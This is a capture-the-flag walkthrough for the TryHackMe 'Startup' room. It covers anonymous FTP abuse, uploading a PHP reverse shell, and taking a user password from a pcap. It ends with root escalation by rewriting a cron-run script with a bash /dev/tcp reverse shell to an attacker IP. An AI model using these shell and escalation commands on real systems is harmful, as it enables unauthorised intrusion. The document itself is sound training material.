




---

Name: Startup
Difficulty: Easy
URL: https://tryhackme.com/room/startup
Category: Linux, Web

---

# 0. Setup
Adding the ip address to /etc/hosts so we can access the website via startup.thm
```bash
nvim /etc/hosts

10.114.158.167  startup.thm
```

Starting the vpn
```bash
openvpn try_hack_me.ovpn
```

Lastly, checking the connectivity
```bash
ping startup.thm -c 4

PING startup.thm (10.114.158.167) 56(84) bytes of data.
64 bytes from startup.thm (10.114.158.167): icmp_seq=1 ttl=62 time=54.4 ms
64 bytes from startup.thm (10.114.158.167): icmp_seq=2 ttl=62 time=57.9 ms
64 bytes from startup.thm (10.114.158.167): icmp_seq=3 ttl=62 time=58.0 ms
64 bytes from startup.thm (10.114.158.167): icmp_seq=4 ttl=62 time=54.2 ms

--- startup.thm ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3000ms
rtt min/avg/max/mdev = 54.173/56.121/57.988/1.823 ms

```

# 1. Solution
## Initial Recon
Looking at the open ports with rustscan
```bash
rustscan -a startup.thm --ulimit 5000 -- -sC -sV
```

The interesting findings are: 
- webserver on port 80
- ssh on port 22 (could be useful if we find a username)
- ftp on port 21, which allows anonymous login and has some interesting files, also a writeable directory

```bash
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 192.168.138.209
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDAzds8QxN5Q2TsERsJ98huSiuasmToUDi9JYWVegfTMV4Fn7t6/2ENm/9uYblUv+pLBnYeGo3XQGV23foZIIVMlLaC6ulYwuDOxy6KtHauVMlPRvYQd77xSCUqcM1ov9d00Y2y5eb7S6E7zIQCGFhm/jj5ui6bcr6wAIYtfpJ8UXnlHg5f/mJgwwAteQoUtxVgQWPsmfcmWvhreJ0/BF0kZJqi6uJUfOZHoUm4woJ15UYioryT6ZIw/ORL6l/LXy2RlhySNWi6P9y8UXrgKdViIlNCun7Cz80Cfc16za/8cdlthD1czxm4m5hSVwYYQK3C7mDZ0/jung0/AJzl48X1
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOKJ0cuq3nTYxoHlMcS3xvNisI5sKawbZHhAamhgDZTM989wIUonhYU19Jty5+fUoJKbaPIEBeMmA32XhHy+Y+E=
|   256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPnFr/4W5WTyh9XBSykso6eSO6tE0Aio3gWM8Zdsckwo
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-title: Maintenance
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## FTP access 
Let's get those files and take a look at them. We log in via ftp with the "anonymous" user and "anonymous" password
```bash
ftp startup.thm
Connected to startup.thm (10.114.158.167).
220 (vsFTPd 3.0.3)
Name (startup.thm:theo): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
227 Entering Passive Mode (10,114,158,167,84,241).
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
226 Directory send OK.
ftp> get important.jpg
local: important.jpg remote: important.jpg
227 Entering Passive Mode (10,114,158,167,175,104).
150 Opening BINARY mode data connection for important.jpg (251631 bytes).
g226 Transfer complete.
251631 bytes received in 0.404 secs (623.30 Kbytes/sec)
ftp> get notice.txt
local: notice.txt remote: notice.txt
227 Entering Passive Mode (10,114,158,167,137,227).
150 Opening BINARY mode data connection for notice.txt (208 bytes).
226 Transfer complete.
208 bytes received in 0.00173 secs (120.44 Kbytes/sec)
ftp>
```

Notice.txt contains the name Maya
```txt
Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.
```

The jpg file is an Among Us meme


## Directory Enumeration
Using gobuster on the website we find the /files directory
```bash
gobuster dir -u http://startup.thm/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 20 -x txt,php,html,bak,zip,log
```
```bash 
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://startup.thm/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              txt,php,html,bak,zip,log
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
index.html           (Status: 200) [Size: 808]
files                (Status: 301) [Size: 310] [--> http://startup.thm/files/]
```

Which looks like is the directory we have access via ftp



## Getting a shell
Since we can write in the ftp directory let's upload a reverse shell. Let's get a reverse shell file from https://www.revshells.com/ and upload it via FTP



```bash
ftp startup.thm
Connected to startup.thm (10.114.158.167).
220 (vsFTPd 3.0.3)
Name (startup.thm:theo): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd ftp
250 Directory successfully changed.
ftp> put shell.php
local: shell.php remote: shell.php
227 Entering Passive Mode (10,114,158,167,47,59).
150 Ok to send data.
226 Transfer complete.
2587 bytes sent in 3.2e-05 secs (80843.75 Kbytes/sec)
ftp> ls
227 Entering Passive Mode (10,114,158,167,32,219).
150 Here comes the directory listing.
-rwxrwxr-x    1 112      118          2587 Jul 13 13:05 shell.php
226 Directory send OK.
ftp>
```

Start the listener on the attack box
```bash
nc -lvnp 4444
```

Access the file and wait for the shell. Now we are logged in as www-data, let's spawn a better shell
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## First flag
The first question is "What is the secret spicy soup recipe?". We can find recipe.txt in the / directory
```bash
www-data@startup:/$ cat recipe.txt
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was [REDACTED].
```

## Looking ways to escalate as another user
We list /home and find the user Lennie

Now let's use some scripts to find out more about the machine, LinEnum.sh (https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh) and pspy (https://github.com/DominicBreuker/pspy) . I chose to upload them via FTP (exactly as I did for shell.php) and access them in the /var/www/html/files/ftp/ directory, you can do it either way you like

LinEnum didn't find anything interesting, but pspy detected a script running
```bash
2026/07/13 13:18:01 CMD: UID=0     PID=2579   | /bin/sh -c /home/lennie/scripts/planner.sh 
```

The files with SUID are
```bash
www-data@startup:/tmp$ find / -perm -4000 -type f 2> /dev/null
/bin/mount
/bin/fusermount
/bin/umount
/bin/ping6
/bin/su
/bin/ping
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/at
/usr/bin/sudo
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/gpasswd
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
```

Went back to the / directory and found the suspicious.pcapng inside /incidents. Started a http server so I can download and view it from my own laptop
```bash
www-data@startup:/incidents$ ls       
ls
suspicious.pcapng
www-data@startup:/incidents$ python3 -m http.server
python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 ...
```
```bash
wget http://10.114.158.167:8000/suspicious.pcapng

Saving 'suspicious.pcapng'
HTTP response 200 OK [http://10.114.158.167:8000/suspicious.pcapng]
suspicious.pcapng    100% [===============================================================>]   30.49K    --.-KB/s
                          [Files: 1  Bytes: 30.49K [199.29KB/s] Redirects: 0  Todo: 0  Erro]
```

I opened it in wireshark and started looking through it



It reveals a previous successful attack, also involving a reverse shell. In it we can find the password for lennie



```bash
su lennie

c4ntg3t3n0ughsp1c3
```

# Getting root
Let's look at his files
```bash
lennie@startup:~/scripts$ ls
planner.sh  startup_list.txt

lennie@startup:~/scripts$ cat startup_list.txt

lennie@startup:~/scripts$ cat planner.sh
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh

lennie@startup:~/scripts$ ls -al
total 16
drwxr-xr-x 2 root   root   4096 Nov 12  2020 .
drwx------ 4 lennie lennie 4096 Nov 12  2020 ..
-rwxr-xr-x 1 root   root     77 Nov 12  2020 planner.sh
-rw-r--r-- 1 root   root      1 Jul 13 13:48 startup_list.txt

lennie@startup:~/scripts$ cat /etc/print.sh
#!/bin/bash
echo "Done!"

lennie@startup:~/scripts$ ls -al /etc/print.sh
ls -al /etc/print.sh
-rwx------ 1 lennie lennie 25 Nov 12  2020 /etc/print.sh
```

Planner.sh is run by root periodically, since we can write in /etc/print.sh (which is used by planner.sh) we will modify it to gain access as root
```bash
cat > /etc/print.sh << 'EOF'
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.114.68.172/1234 0>&1'
EOF

chmod +x /etc/print.sh
```

Start another listener
```bash
nc -lvnp 1234
```

Receive the connection
```bash 
root@startup:~# cat root.txt
THM{REDACTED}
```
